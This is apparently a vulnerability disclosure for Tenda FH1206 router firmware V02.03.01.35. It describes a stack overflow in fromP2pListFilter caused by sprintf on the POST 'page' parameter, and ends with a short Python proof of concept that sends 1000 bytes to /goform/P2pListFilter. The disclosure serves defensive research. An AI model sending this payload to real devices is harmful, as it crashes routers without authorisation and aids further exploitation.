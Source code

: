 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromP2pListFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v11, "p2p.asp?page=%s", v8);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v11` array, thus triggering this security vulnerability.

![image-20240731140850677](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731140850677.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/P2pListFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)